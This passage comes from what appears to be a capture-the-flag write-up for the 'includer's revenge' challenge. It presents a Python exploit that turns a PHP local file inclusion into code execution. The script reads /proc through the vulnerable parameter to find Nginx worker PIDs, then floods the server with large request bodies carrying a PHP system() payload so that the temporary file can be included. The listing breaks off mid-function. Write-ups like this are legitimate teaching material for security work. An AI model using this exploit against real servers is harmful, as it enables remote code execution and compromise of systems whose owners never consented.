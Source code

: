 Equipped with these strategies we tried to retrieve the flag and after about 3~ minutes we consistently managed to `include_once()` the temporary file that contains our malicious payload in `includer's revenge`!

## Exploit Implementation

We’ve used the following Python script to solve `includer's revenge` (and a slightly modified version for `counter`):

```python
import requests
import threading
import multiprocessing
import threading
import random

SERVER = "http://localhost:8088"
NGINX_PIDS_CACHE = set([34, 35, 36, 37, 38, 39, 40, 41])
# Set the following to True to use the above set of PIDs instead of scanning:
USE_NGINX_PIDS_CACHE = False

def create_requests_session():
    session = requests.Session()
    # Create a large HTTP connection pool to make HTTP requests as fast as possible without TCP handshake overhead
    adapter = requests.adapters.HTTPAdapter(pool_connections=1000, pool_maxsize=10000)
    session.mount('http://', adapter)
    return session

def get_nginx_pids(requests_session):
    if USE_NGINX_PIDS_CACHE:
        return NGINX_PIDS_CACHE
    nginx_pids = set()
    # Scan up to PID 200
    for i in range(1, 200):
        cmdline = requests_session.get(SERVER + f"/?action=read&file=/proc/{i}/cmdline").text
        if cmdline.startswith("nginx: worker process"):
            nginx_pids.add(i)
    return nginx_pids

def send_payload(requests_session, body_size=1024000):
    try:
        # The file path (/bla) doesn't need to exist - we simply need to upload a large body to Nginx and fail fast
        payload = '<?php system("/readflag"); ?> //'
        requests_session.post(SERVER + "/?action=read&file=/bla", data=(payload + ("a" * (body_size - len(payload)))))
    except:
        pass

def send_payload_worker(requests_session):
    while True:
        send_payload(requests_session)

def send_payload_multiprocess(requests_session):
    # Use all CPUs to send the payload as request body for Nginx
    for _ in range(multiprocessing.cpu_count()):
        p = multiprocessing.Process(target=send_payload_worker, args=(requests_session,))
        p.start()

def generate_random_path_prefix(nginx_pids):
    # This method creates a path from random amount of ProcFS path components. A generated path will look like /proc/<nginx pid 1>/cwd/proc/<nginx pid 2>/root/proc/<nginx pid 3>/root
    path = ""
```
